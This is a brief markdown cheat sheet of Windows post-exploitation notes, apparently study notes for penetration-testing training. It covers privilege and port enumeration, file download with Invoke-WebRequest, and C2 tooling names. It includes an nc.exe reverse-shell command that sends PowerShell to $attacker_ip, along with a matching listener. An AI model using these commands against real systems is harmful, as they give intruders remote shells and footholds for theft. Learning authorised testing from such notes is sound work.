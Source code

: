 ```yaml
---
label: Post-exploitation
disabled: true
---
```


## Tunneling vs port-forwarding vs 

https://sushant747.gitbooks.io/total-oscp-guide/content/port_forwarding_and_tunneling.html

- C2
- socks
- dynamic
- local
- remote

## Files To Loot

C:\inetpub\

## Information gathering

```powershell
# List current user privileges
whoami /all

# List all listening TCP ports
netstat -noa | findstr "LISTENING"

# Check ACLs of file / directory
icacls $path
```

## File transfer

```powershell
# Download file from URL
Invoke-WebRequest $url -Out $output_file
```

https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Downloading_Files_from_Attackers_HTTP_Server_PowerShell

## Shell stabilisation

```powershell
# Connect to remote listener (get reverse shell)
nc.exe $attacker_ip $attacker_port -e powershell.exe

# Start listening on port
rlwrap nc -lvnp $port
```

- <https://github.com/antonioCoco/ConPtyShell/tree/master>
- C2 frameworks: meterpreter, sliver

